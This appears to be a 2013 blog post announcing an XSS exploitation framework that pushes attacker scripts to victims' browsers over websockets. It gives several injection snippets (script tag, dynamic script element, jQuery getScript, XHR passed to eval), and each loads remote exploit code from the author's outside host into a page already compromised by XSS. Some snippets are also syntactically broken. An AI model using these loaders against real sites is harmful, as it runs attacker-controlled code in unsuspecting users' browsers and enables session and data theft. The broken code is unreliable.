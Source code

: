 ```yaml
---
title: DarkFox's Exploitation Framework.js
author: DarkFox
date: 2013-04-12
---
```


HTML5 and web2 have offered a lot of different things, websockets are one of
them. I have put aside some time to build a framework for developers to write
payloads and have the ability to dynamically send scripts to their users.
Currently there is no fallback to the websockets but I do not intend to use
flash or java so will be using a long-polling approach for the fallback.

There are a number of ways to get the script to run in the user's browser
through XSS. To expect this tool to work, you need to run code on the page so
I assume you already have the XSS vulnerability in the site you're testing.

Direct HTML into the page
=========================

Often enough you include your XSS vector through a script tag, the following
above your code will give you the required library.

~~~ html
<script src=//darkfox.us.to/exploits/dfef.js></script>
~~~

In your own js file
===================

In your own javascript files, you can dynamically include my library to the page
and run your code when it loads.

``` javascript
var DF_AUTORUN = function { df.post(false, "ping") }
(s = document.createElement("script"))
 .src   = "//darkfox.us.to/exploits/dfef.js";
s.async = true;
document.body.appendChild(s)
```

With jQuery
===========

Many sites have jQuery as a common library, however, I highly recommend to not
use jQuery as the dependancy of such a large library that could be removed which
would lead your code to break.

``` javascript
$.getScript("//darkfox.us.to/exploits/dfef/darkfox.js", function () {
    df.post(false, "ping")
});
```

Eval XHR response
=================

Although XHR requests have been made to be much easier to use with the library,
you could use an XHR request to load the library it's self.

``` javascript
var x = new XMLHttpRequest || ActiveXObject("Microsoft.XMLHTTP"), myFunc;
x.open("get", "http://darkfox.us.to/exploits/dfef/darkfox.js");
x.addEventListener("load", function () { (0,eval)(this.response); myFunc });
x.send();

myFunc = function { df.post(false, "ping") }
```

Uselessly with the framework it's self
======================================

Useless as you'd already have the framework but here we go.

``` javascript
df.get("http://darkfox.us.to/exploits/dfef/darkfox.js", undefined, false)
  .e("load", function () { df.post(false, "ping") }).s()
```
